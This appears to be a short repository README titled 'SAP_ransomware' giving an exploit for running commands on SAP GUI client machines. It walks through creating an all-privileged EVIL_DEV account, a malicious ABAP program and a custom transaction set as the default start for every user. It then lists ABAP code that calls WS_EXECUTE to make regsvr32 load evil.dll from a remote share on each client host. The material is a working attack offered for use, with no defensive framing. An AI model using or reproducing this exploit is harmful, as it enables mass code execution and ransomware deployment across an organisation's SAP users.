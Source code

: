 # SAP_ransomware
Simple remote command execution exploit code for SAP GUI
First of all need to create a malicious ABAP program on SAP NetWeaver AS ABAP
1) First of all, to get RCE on a client’s computer, it is necessary to create a user with developer rights. The user SAP* cannot create or change any programs. To do this, run transaction su01 and  create a new user with SAP_ALL rights under login EVIL_DEV.

2) Then, login as the EVIL_DEV user, run transaction se38 and create a program sap_malware_prog.

3) Then when we are able to create a program, we click the Insert button, then copy a program, which executes malicious functionality, then save all and activate the program.

4) Create custom transaction with se93

5) Connect custom transaction to malware program

6) Set mlauncher transaction by default 

7) The screenshot shows that we set start transaction – mlauncher for all users. 

## ABAP code for execute any command in SAP clients hosts
```
CALL FUNCTION 'WS_EXECUTE'
       EXPORTING
            program = 'c:\Windows\System32\regsvr32.exe'
            commandline     = '/i /s \\REMOTE_FOLDER\tmp\evil.dll'
            INFORM         = ''
           EXCEPTIONS
                  FRONTEND_ERROR        = 1
                  NO_BATCH                 = 2
                  PROG_NOT_FOUND           = 3
                  ILLEGAL_OPTION           = 4
                  GUI_REFUSE_EXECUTE       = 5
                  OTHERS                   = 6.
  ```
  
  
